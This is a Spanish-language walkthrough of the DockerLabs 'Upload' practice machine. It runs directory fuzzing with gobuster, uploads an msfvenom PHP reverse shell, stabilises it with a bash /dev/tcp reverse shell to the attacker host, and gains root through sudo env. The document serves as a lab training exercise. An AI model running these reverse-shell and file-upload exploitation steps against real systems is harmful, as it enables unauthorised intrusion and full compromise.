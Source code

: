 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Upload".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh upload.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
Discovered open port 80/tcp on 172.17.0.2
```
Vemos que solo tiene abierto el puerto 80, por lo que probaremos a poner la IP en nuestro navegador y vemos que nos sale una pagina que nos permite subir un archivo.
Por si acaso, hacemos un "CTRL + U" pero no se observa nada "especial" en el codigo.
Entonces, vamos a empezar haciendo un poco de FUZZNG WEB para ver si encontramos algun directorio o subdominio al que poder acceder.
Para ello usaremos "gobuster" mediante el comando:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .php,.html,.py
```
y tras esperar un poco, obtenemos lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                (Status: 403) [Size: 275]
/.html               (Status: 403) [Size: 275]
/index.html          (Status: 200) [Size: 1361]
/uploads             (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php          (Status: 200) [Size: 1357]
/.html               (Status: 403) [Size: 275]
/.php                (Status: 403) [Size: 275]
/server-status       (Status: 403) [Size: 275]
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Vemos claramente un directorio llamado "/uploads" por lo que sera el momento de subir algun archivo en ".php" e ir a ese directorio para ver si podemos ganar acceso ejecutando dicho archivo.
Para ello, vamos a utilizar "msfvenom" de la siguiente forma:
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > subida.php
```
Una vez creado, volvemos a la pagina del principio y subimos este archivo, obteniendo:
```
The file subida.php has been uploaded.
```
Bien, ahora que el archivo se ha subido bien, es hora de ir al directorio "/uploads" que hemos encontrado con "gobuster".

![[subida.png#center|360]]
Es momento ahora de abrir "netcat" por el puerto 443, que es el que hemos configurado en el payload hecho con "msfvenom":
```
nc -nlvp 443
```
Ahora tenemos que ejecutar el archivo "subida.php" y veremos mediante "netcat" que ya tenemos acceso a la maquina.
```
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59820
whoami
www-data
```
Sin embargo, conviene estabilizar la conexion debido a que los payloads en ".php" con "msfvenom" no suelen ser muy estables.
Para ello, abrimos la pagina "https://www.revshells.com/" y poniendo nuestra IP y el puerto por el que queramos escuchar luego con "netcat" nos dara una reverse. En este caso:
```
sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```
Ahora debemos hacer dos cositas:
	1) Abrir otra terminal y poner "netcat" a la escucha por el puerto 444  (elegido)
	2) Escribir en la primera terminal, el comando:
		```bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"```
		Lo que nos dara la reverse por el puerto 444 y que recibiremos en la segunda terminal.
![[reverse.png]]
Ahora ya podriamos cerrar la primera terminal y pasarnos a la segunda, ya que acabamos de estabilizar la conexion. Ahora, por supuesto, lo primero que haremos sera el tratamiento de la TTY. Para ello, seguimos estos pequeños pasos:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@fe0fc8e5b46b:/var/www/html/uploads$
```
Bien, con estos pequeños pasos ya hemos hecho el tratamiento de la TTY completo. Ahora tendriamos que intentar hacer la escalada de privilegios. Para ello, escribiremos "sudo -l" para ver si se pueden escalar privilegios de la forma mas sencilla, y obtenemos:
```
Matching Defaults entries for www-data on fe0fc8e5b46b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on fe0fc8e5b46b:
    (root) NOPASSWD: /usr/bin/env
```
Como se puede observar en la ultima linea, podriamos ejecutar el binario "/env" sin credenciales.
Para ello buscamos en "https://gtfobins.github.io/gtfobins/env/#sudo" y vemos que nos dice que para obtener la reverse, tendriamos que escribir el comando "sudo env /bin/sh":
```
www-data@fe0fc8e5b46b:/var/www/html/uploads$ sudo env /bin/sh
# whoami
root
#
```
Tras escribirlo, vemos que somos ya root. Si quisieramos un prompt algo mas "normal", podriamos escribir el comando "bash -p", como se puede ver a continuacion:
```
# bash -p
root@fe0fc8e5b46b:/var/www/html/uploads# whoami
root
root@fe0fc8e5b46b:/var/www/html/uploads#
```

**NOTA: En caso de no querer ir, siempre que vayamos a hacer una escalada de privilegios, a la pagina "gtfobins.github.io", es recomendable instalarse "searchbins".
Una vez instalado, solo tendriamos que escribir:**
```
searchbins -b env -f sudo

	-b = nombre del binario
	-f = funcion del binario que buscamos (shell, sudo, suid, capabilities...)
```
